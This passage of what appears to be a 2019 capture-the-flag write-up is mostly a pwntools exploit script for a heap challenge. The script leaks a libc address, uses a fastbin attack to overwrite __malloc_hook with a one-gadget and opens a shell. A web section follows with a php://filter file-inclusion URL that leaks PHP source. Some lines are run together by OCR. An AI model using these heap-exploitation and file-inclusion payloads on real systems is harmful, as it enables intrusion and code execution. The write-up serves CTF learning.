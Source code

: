 ```python
	p.sendline(content)

def show(index):
	p.recvuntil("> ")
	p.sendline("2")
	p.recv()
	p.sendline(str(index))

def edit(index,content):
	p.recvuntil("> ")
	p.sendline("3")
	p.recv()
	p.sendline(str(index))
	sleep(0.1)
	p.sendline(content)

def free(index):
	p.recvuntil("> ")
	p.sendline("4")
	p.recv()
	p.sendline(str(index))

def exp(): 
	create("1"*0x60) #0
	create("1"*0x60) #1
	create("2"*0x60) #2
	create("3"*0x80) #3
	create("3"*0x80) #4
	free(3)
	show(4)
	if local:
		pass
	else:
		pass
		#p.recvuntil("Info index: ")
		#p.recvuntil("Info index: ")
	data = u64(p.recvuntil("\n",drop=True)+"\x00\x00") libc_base = data - 0x3c4b78
	malloc_hook = libc_base + 0x3c4b10
	one_shot = libc_base + 0xf02a4 print("malloc_hook = " + str(hex(malloc_hook))) print("one_shot = " + str(hex(one_shot))) free(1)
	free(2)
	edit(0,p64(malloc_hook - 19))
	create("4"*0x60)
	create("5"*0x60)
	payload = "a"*3 + p64(one_shot)
	payload = payload.ljust(0x60,"\x00")
	create(payload)
	create("icq0030af22ece42d03523c08138525f")
	p.interactive()
exp()
```
![6](/img/2019-04-23/6.png)
### web
#### justSoso
`http://d466a1d4c1214b3181516b834f0de419f413fd793ae942d0.changame.ichunqiu.com/index.php?file=php://filter/read=convert.base64-encode/resource=index.php`